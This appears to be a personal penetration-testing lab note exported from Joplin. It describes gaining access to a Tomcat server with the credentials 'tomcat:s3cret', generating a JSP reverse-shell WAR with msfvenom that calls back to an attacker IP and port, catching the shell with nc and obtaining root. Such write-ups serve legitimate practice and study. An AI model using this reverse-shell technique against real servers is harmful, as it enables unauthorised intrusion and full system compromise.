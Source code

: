 Attack Vector 2

Logged in with tomcat:s3cret

Notice that you can upload war files

Make a shell via msfvenom
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.214 LPORT=5678 war > shell.war`
![64c00824db58592690aab95c0674c72d.png](:/e8e1e61a5ea341d2b7a96bcf38441402)

Start an nc listener
![9749751d284a19f61b6bc3af4f488ead.png](:/3b2dad634fd749bc8507fc2f6a13165c)


We have a shell on the nc listener
![ffa471ffa499cfa96693d00b8d4635c9.png](:/31244758f5ab4d55bc41f40ef3e867c7)

Check who you are... you're root!
![766e10a467708c4800cde1af0ced1688.png](:/25966b19703146f8b8925d8c9309e7fb)

Get a better shell
![cb3d6ceb98a320408f3d7193aec5cf42.png](:/a9f43adc86b44dcaada71de70aed43ae)




id: 477ec72095114c69b3a257055166ca9a
parent_id: b70545d6155a4f8fa5561e7c6e46deb4
created_time: 2020-08-30T08:07:36.638Z
updated_time: 2020-09-05T07:54:43.046Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-08-30T08:07:36.638Z
user_updated_time: 2020-09-05T07:54:43.046Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1